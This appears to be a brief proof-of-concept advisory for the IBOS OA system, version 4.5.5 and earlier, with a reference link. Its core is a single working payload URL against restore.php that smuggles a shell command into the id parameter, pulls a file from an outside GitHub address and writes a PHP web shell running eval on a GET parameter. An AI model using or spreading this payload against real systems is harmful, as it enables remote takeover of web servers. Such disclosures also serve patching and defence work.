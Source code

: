 # Affected Version
## Version <= 4.5.5

## poc
Payload:
http://localhost/data/restore.php?op=restore&id=https://raw.githubusercontent.com/zhaoweiho/IBOS-remote-download-getshell/master/poxteam.txt%20?%20%26%20echo%20^%3C?php%20@eval($_GET[%22poxteam%22])?^%20>%20weiho.php

## References
https://skrskr.me/index.php/posts/open-source-version-of-IBOS-oa-system-getshell.html
